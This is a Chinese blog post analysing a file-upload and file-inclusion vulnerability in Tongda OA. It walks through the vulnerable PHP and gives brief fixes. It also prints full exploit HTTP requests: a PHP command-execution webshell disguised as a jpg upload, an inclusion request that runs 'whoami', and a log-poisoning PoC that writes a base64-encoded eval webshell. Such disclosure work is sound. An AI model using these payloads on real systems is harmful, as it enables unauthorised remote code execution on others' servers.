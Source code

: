 ```yaml
---
layout: post
title:  "通达OA文件包含漏洞"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA文件上传和文件包含漏洞分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

在2020年3月初的时候，有安全厂商发布公告称通达OA被入侵后被黑产利用。今日再来分析此漏洞的时候发现，其实和文件上传没关系，也根本不是任意文件上传漏洞。而是一个思路很好的文件包含漏洞。漏洞的触发条件是在无需登录的条件下上传一个jpg等其他图片格或其他文件格式的非PHP格式的文件即可，然后再利用文件包含漏洞去包含导致漏洞触发。漏洞问题的触发点在于文件包含。除了剪切图片操作之外，很难保证上传图片的内容安全。

影响版本：V11版、2017版、2016版、2015版、2013增强版、2013版（具体未实际测试）

1.文件上传的数据包：

> POST /ispirit/im/upload.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Cache-Control: no-cache
> Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
> Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
> Cookie: PHPSESSID=123
> Content-Length: 658
>
> ------WebKitFormBoundarypyfBh1YB4pV8McGB
> Content-Disposition: form-data; name="UPLOAD_MODE"
>
> 2
> ------WebKitFormBoundarypyfBh1YB4pV8McGB
> Content-Disposition: form-data; name="P"
>
> 123
> ------WebKitFormBoundarypyfBh1YB4pV8McGB
> Content-Disposition: form-data; name="DEST_UID"
>
> 1
> ------WebKitFormBoundarypyfBh1YB4pV8McGB
> Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
> Content-Type: image/jpeg
>
> <?php
> $command=$_POST['cmd'];
> $wsh = new COM('WScript.shell');
> $exec = $wsh->exec("cmd /c ".$command);
> $stdout = $exec->StdOut();
> $stroutput = $stdout->ReadAll();
> echo $stroutput;
> ?>
> ------WebKitFormBoundarypyfBh1YB4pV8McGB--

2.文件包含数据包：

> POST /mac/gateway.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: python-requests/2.21.0
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 74
>
> json={"url":"/general/../../attach/im/2006/2097931002.zip"}&cmd=whoami

## 0x02 漏洞分析

### 一、文件上传

- /ispirit/im/upload.php:5-13行。5行进行判断，变量P存在并不为空的话则执行6-10行代码。如果变量P不存在，或者是等于空的话。则执行else语句，包含auth.php。

  ```php
  if (isset($P) || ($P != "")) {
  	ob_start();
  	include_once "inc/session.php";
  	session_id($P);
  	session_start();
  	session_write_close();
  }
  else {
  	include_once "./auth.php";
  }
  ```

- ispirit\im\auth.php。查看auth.php代码，发现此文件作用为校验用户是否登录。所以如果P存在，并且不为空的话即可在非登录状态下进行上传。

  ```php
  include_once "inc/session.php";
  session_start();
  session_write_close();
  include_once "inc/conn.php";
  include_once "inc/utility.php";
  ob_start();
  if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  	sleep(1);
  	if (!isset($_SESSION["LOGIN_USER_ID"]) || ($_SESSION["LOGIN_USER_ID"] == "") || !isset($_SESSION["LOGIN_UID"]) || ($_SESSION["LOGIN_UID"] == "")) {
  		echo "-ERR " . _("用户未登陆");
  		exit();
  ```

### 二、文件包含

- /mac/gateway.php:41行。对url进行了包含处理。

  ```php
  	if ($url != "") {
  		if (substr($url, 0, 1) == "/") {
  			$url = substr($url, 1);
  		}
  		include_once $url;
  	}
  ```

- 

**思考：**其实这个地方除了可以通过文件上传之后进行包含之外，也可以通过包含其他文件进行利用，比如包含日志文件：

poc1：

> GET /mac/gateway.php?json={}&aa=<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?> HTTP/1.1
> Host: 192.168.220.129
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
> Accept-Encoding: gzip, deflate
> Connection: close
> Cookie: USER_NAME_COOKIE=admin; SID_1=b51a8646; PHPSESSID=olai0tkt0oqhcblhha71f42q21; OA_USER_ID=admin
> Upgrade-Insecure-Requests: 1

poc2：

> POST /mac/gateway.php HTTP/1.1
> Host: 192.168.220.129
> User-Agent: python-requests/2.21.0
> Accept-Encoding: gzip, deflate
> Accept: */*
> Connection: close
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 56
>
> json={"url":"../ispirit/../../nginx/logs/oa.access.log"}

执行完poc1和poc2之后，便会在mac目录下生成lost.php。

### 三、漏洞修复

- url参数禁止用户可控。
- 在路径中禁止出现./等字符。

## 0x03 参考链接

- http://www.0e0w.com
